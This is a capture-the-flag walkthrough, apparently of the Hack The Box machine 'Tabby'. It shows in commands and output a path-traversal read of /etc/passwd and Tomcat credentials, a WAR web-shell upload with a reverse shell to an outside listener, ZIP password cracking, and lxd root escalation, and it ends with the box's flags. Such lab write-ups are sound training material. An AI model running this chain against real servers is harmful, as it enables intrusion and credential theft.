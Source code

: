 # Tabby

## SYN Scan
```
nmap -sS -sV -O -p- -v -T4 -Pn -oA nmap/full_syn 10.10.10.194

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8080/tcp open  http    Apache Tomcat

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Mega Hosting
`Port: 80`

![tomcat](./screenshots/mega_hosting.png)

## Tomcat
`Port: 8080`

![tomcat](./screenshots/tomcat.png)

## Arbitrary Local File Read
```http
GET /news.php?file=../../../../../../../../etc/passwd HTTP/1.1
Host: megahosting.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```http
HTTP/1.1 200 OK
Date: Fri, 16 Apr 2021 13:08:08 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1850
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
....
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

## Tomcat User Enumaration
```http
GET /news.php?file=../../../../../../../../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
Host: megahosting.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```xml
...
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
...
```

## Tomcat Login
```
tomcat:$3cureP4s5w0rd123!
```

![tomcat_admin_gui](./screenshots/tomcat_admin_gui.png)

## Tomcat Text Interface
![tomcat_text](./screenshots/tomcat_text.png)

## Tomcat Upload War File via Text Interface
Uploaded a `war` file by using tomcat's text interface.

```
$ curl --upload-file shell.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/foo'   
OK - Deployed application at context path [/foo]
```

`http://10.10.10.194:8080/foo/`

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Command shell session 4 opened (10.10.14.11:4444 -> 10.10.10.194:42578) at 2021-04-16 17:21:42 +0300

id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Encrypted Backup ZIP File
```
(remote) tomcat@tabby:/var/www/html/files$ ls -l
total 28
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
```

### Cracked The ZIP's Password
```
$ fcrackzip -v -u -D -p ~/storage/wordlists/rockyou.txt 16162020_backup.zip 
'var/www/html/assets/' is not encrypted, skipping
found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
'var/www/html/files/' is not encrypted, skipping
found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
checking pw arizon09                                

PASSWORD FOUND!!!!: pw == admin@it
```

```
$ unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```

## Privilege Escalation (ash)
Used the password of the backup zip file to log in as `ash`.

```
ash:admin@it
```

```
ash@tabby:/var/www/html$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)`
```

## The User Flag
```
ash@tabby:~$ ls -l
total 4
-rw-r----- 1 ash ash 33 Apr 16 14:08 user.txt
```

```
ash@tabby:~$ cat user.txt 
8b521a9dadb599908d23252797157dcf
```

## Privilege Escalation (root)
`ash` is in `lxd` group, so that he can create containers by using lxd.

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

```
ash@tabby:/dev/shm$ lxc exec mycontainer /bin/sh
```

```
~ # chroot /mnt/root/
root@mycontainer:/# id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
root@mycontainer:/# ls -l /root/
total 8
-rw-r--r-- 1 root root   33 Apr 16 14:08 root.txt
```

```
root@mycontainer:/# cat /root/root.txt 
1b56d5ffe1b802eeb77e1e32006664e8
```
